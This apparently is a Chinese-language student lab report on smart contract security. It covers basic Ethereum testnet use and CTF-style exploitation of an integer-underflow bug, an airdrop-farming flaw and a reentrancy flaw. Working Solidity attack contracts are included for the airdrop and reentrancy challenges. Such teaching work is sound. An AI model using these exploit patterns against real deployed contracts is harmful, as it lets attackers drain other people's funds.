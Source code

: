 # 智能合约安全基础

## 以太坊区块链的基本操作

### 前期准备

<img src="pic/1-0.jpg" alt="1-0" style="zoom:50%;" />  

### 切换网络并获取测试币

<img src="pic/1-1.jpg" alt="1-1" style="zoom:50%;" /> 

### 发送交易

<img src="pic/1-2.jpg" alt="1-2" style="zoom:50%;" /> \ 

<img src="pic/1-3.jpg" alt="1-3" style="zoom:50%;" /> 

<img src="pic/1-4.jpg" alt="1-4" style="zoom:50%;" /> 

<img src="pic/1-5.jpg" alt="1-5" style="zoom:50%;" /> 

```
hash:0x6e53869ab820226cc5fe3cc4fc5fd413e643df044fb480dcc31e64e7e14171be
```



## 以太坊智能合约基础

#### 编写与编译合约

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.28;

contract SimpleContract {
    uint256 public number;
    constructor() {
        number = 1; 
    }
    function set(uint256 x) public {
        number = x;
    }
    function get() public view returns (uint256) {
        return number;
    }
}
```

<img src="pic/2-1.jpg" alt="2-1" style="zoom:50%;" /> 

#### 部署合约及调用

<img src="pic/2-2.jpg" alt="2-2" style="zoom:50%;" />  

![2-3](pic/2-3.jpg)

<img src="pic/2-4.jpg" alt="2-4" style="zoom:50%;" />  

#### holesky 测试链上部署

<img src="pic/2-5.jpg" alt="2-5" style="zoom:50%;" />  

![2-6](pic/2-6.jpg)

![2-7](pic/2-7.jpg) 

![2-8](pic/2-8.jpg)

- **合约地址**

```
0x
```



## 整型溢出漏洞利用 

首先，获取合约地址并发起交互。

![3-0](pic/3-0.jpg)

<img src="pic/3-1.jpg" alt="3-1" style="zoom:50%;" /> 

​	对合约调用`init`交易后，`balances[msg.sender]`的值被设定为20。

​	由于`balances[msg.sender]`的类型为`uint256`，因此，只需将`_value`参数设为21并调用`transfer`交易，便可以使`balances[msg.sender]`溢出为补码-1，在`uint256`类型下即为一个非常大的整数。

​	然后调用`win`交易，即可通过`require(balances[msg.sender] > 20)`条件，触发`emit SendFlag()`，获取flag。

<img src="pic/3-2.jpg" alt="3-2" style="zoom:50%;" /> 

![3-3](pic/3-3.jpg)

- **合约地址**

```
0x
```



## 薅羊毛攻击

​	建立两个合约`attack`和`middle_attack`。	

​	其中`middle_attck`用于调用原`AirDrop`合约，利用`profit`函数获取代币并把代币转交给调用它的地址。`attack`为总体控制的交易，在`attack`中调用`attack_airdrop`函数，循环创建了30次`middle_attack`交易，并将每次获取的20个代币汇总到`attack`所在的地址。理论上这里会获取600个代币，然后在`attack`中调用`get_flag`函数，此时检测到`attack`地址的代币超过了500个，于是触发了flag。

```solidity
contract attack{
    function attack_airdrop() public {
        for(uint i = 0; i < 30; i++){
            new middle_attack(address(this));
        }
    }

    function get_flag() public {
        AirDrop target = AirDrop(0x3CD57859d0d6497f8A5560E088fb1BDc60A58001);
        target.getFlag();
    }
}

contract middle_attack{
    constructor(address addr){
        AirDrop target = AirDrop(0x3CD57859d0d6497f8A5560E088fb1BDc60A58001);
        target.profit();
        target.transfer(addr,20);
    }
}

```

![4](pic/4.jpg) 

- **合约地址**

```
0x
```



## 重入攻击

​	建立`Attack`并部署合约，首先对`Attack`合约的地址进行`donate`操作，即使该地址的`balances`值不为0，以便于后续调用`withdraw`函数。

<img src="pic/5-1.jpg" alt="5-1" style="zoom:50%;" /> 

​	在`Attack`中对`receive()`进行编辑，使之能够再次触发`withdraw`函数。

​	那么，在调用`attack`函数后，目标合约将调用`withdraw`函数，完成取钱操作，并把控制流交给`receive`，然后`receive`将再次调用`withdraw`函数，使得达到循环取钱的操作，直到合约的代币被取完，`withdraw`函数将运行到底，完成`balance`的修改，到达这一步，即攻击目的已达成。

```solidity
contract Attack{
    Reentrance Contract;
    constructor(address payable _address){
        Contract=Reentrance(_address);
    }

    function attack() public{
        Contract.withdraw(0.001 ether);
    }

    receive() external payable {
        Contract.withdraw(0.001 ether);
    }
}
```

![5-2](pic/5-2.jpg) 

- **合约地址**

```
0x
```

